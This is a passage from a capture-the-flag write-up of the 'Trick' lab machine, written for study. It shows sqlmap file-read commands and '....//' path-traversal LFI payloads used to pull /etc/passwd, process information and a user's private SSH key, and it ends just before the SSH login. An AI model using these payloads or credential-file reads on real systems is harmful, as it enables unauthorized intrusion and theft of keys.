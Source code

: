 Let’s try sshing with michael. It does not work. Let’s try looking at what other sites are available:

```bash
sqlmap -r login.req --risk 3 --level 5 --technique=BEU --batch --privilege --file-read=/etc/nginx/sites-enabled/default

less /home/billy/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default

result:

preprod-marketing.trick.htb
root /var/www/market;

sqlmap -r login.req --risk 3 --level 5 --technique=BEU --batch --privilege --file-read=/home/michael/.ssh/id_rsa
```

Add that to our /etc/hosts.

Now visiting the site it seems like it is also vulnerable to local file inclusion.

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//etc/passwd

#returns us /etc/passwd
```

Next we can check environment variables to see what user is currently running. We should do this in burp as we also need to add the range header:

```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//proc/self/envrion

Range: bytes=200-1000

#This did not work, let's try cmdline

http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//proc/self/cmdline

Range: bytes=200-1000

result:
php-fpm: pool michael

#This shows us the webserver itself is running as michael, so we can access his home dir.

http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//home/michael/.ssh/id_rsa

#we get michael's private key.
```

Now let’s log on to michael via ssh, first create the private key file and set the permission to 600
